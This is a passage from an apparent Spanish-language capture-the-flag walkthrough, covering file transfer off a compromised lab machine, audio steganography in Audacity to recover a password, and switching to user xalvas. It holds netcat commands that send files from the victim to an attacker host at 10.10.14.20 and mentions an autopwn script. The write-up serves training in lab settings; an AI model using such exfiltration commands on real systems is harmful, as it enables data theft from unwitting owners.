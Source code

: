 Ya lo podemos lanzar con el comando `python3 autopwn.py`

> [ ! ] Notas las explicaciones paso a paso del autopwn se pueden ver en el video al minuto 1:06:21


### Investigamos la maquina {-}

Ya hemos visto una lista de archivos en el repertorio de xalvas y uno es un fichero `.wav`. Nos lo enviamos
a nuestra maquina de atacante.

1. En la maquina de atacante

    ```bash
    nc -nlvp 443 > recov.wav
    ```

1. En la maquina victima

    ```bash
    cp /bin/nc /dev/shm/transfer
    chmod +x /dev/shm/transfer
    /dev/shm/transfer 10.10.14.20 443 < recov.wav
    ```

Hay otros ficheros de tipo `.wav`, usando la misma tecnica nos lo enviamos tambien.
Chequeamos que los ficheros no sa hayan comprometido durante la tansferencia con `md5sum`. Los ficheros `.wav` son ficheros
de tipo audio y se pueden escuchar con el comando `play recov.wav`

No os asusteis con la musiquita ;)

Escuchando los otros ficheros parece que el fichero `rick.wav` sea la misma cancion y esto es raro. Si le hacemos un `md5sum recov.wav rick.wav`,
vemos que la cancion es la misma pero el **md5sum** no. Quiere decir que la integridad de la data de uno de estos ficheros a sido manipulada.


### Reto de steganografia con Audacity {-}

**Audacity** es una heramienta de audio que se puede instalar con `apt install audacity`. Lo abrimos y cargamos los dos ficheros.
Si nos dan 2 audios que parecen se los mismos pero hemos visto con el **md5sum** que no son iguales, Una cosa que se puede hacer es 
lanzar un audio de manera normal y al mismo tiempo con el segundo audio, invertir la onda del audio. Si hacemos esto y que los dos ficheros
son ciertamente iguales, no tendriamos que escuchar nada. Lo unico, en este caso que se tendria que escuchar seria las diferencias ente
los dos audios.

> [ ! ] Notas para ver como invertir las ondas de un audio, podeis mirar el video al minuto 1:31:00

Ya tenemos una contraseña.

Intentamos ponerle la contraseña al usuario xalvas y entramos

```bash
su xalvas
Password: <la contraseña>
whoami
#Output 
xalvas
```
